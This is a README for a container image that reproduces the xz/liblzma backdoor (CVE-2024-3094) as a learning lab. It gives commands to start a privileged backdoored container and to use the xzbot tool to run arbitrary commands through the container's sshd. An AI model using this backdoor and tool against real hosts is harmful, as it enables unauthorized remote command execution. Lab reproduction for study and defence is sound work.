

# xz backdoor container image

A container image of [xz](https://tukaani.org/xz-backdoor/) backdoor ([CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)) based on an amazing work from [@amlweems](https://github.com/amlweems)'s [xzbot](https://github.com/amlweems/xzbot) project that can be run on both *x86_64* and *Apple Silicon* (via QEMU or rosetta).

> THIS IS FOR LEARNING PURPOSE ONLY!

## Demo


## Getting started

### Prerequisites

* [docker](https://www.docker.com/) or [podman](https://podman.io/docs/installation).
* Read [xzbot](https://github.com/amlweems/xzbot)'s documentation.

### Usage
**1. Start the container image**

> [!IMPORTANT]
> The `--privileged` option is required in order to start `systemd` as PID 1.

```sh
docker run --rm -it -d \
  --privileged \
  --name xz-backdoor \
  --platform linux/amd64 \
  ghcr.io/rezigned/xz-backdoor:latest
```
**2. Run a command via `xzbot`**

> [!NOTE]
> The ourput of the default command (`id`) is redirected to `/tmp/.xz`.
>
> See https://github.com/amlweems/xzbot for more details.

```sh
# default command `id > /tmp/.xz`
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22"

# custom command
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22" -cmd "uname -a > /tmp/.xz"
```

## Acknowledgements
* https://edofic.com/posts/2021-09-12-podman-m1-amd64/
* https://github.com/amlweems/xzbot
* https://www.openwall.com/lists/oss-security/2024/03/29/4
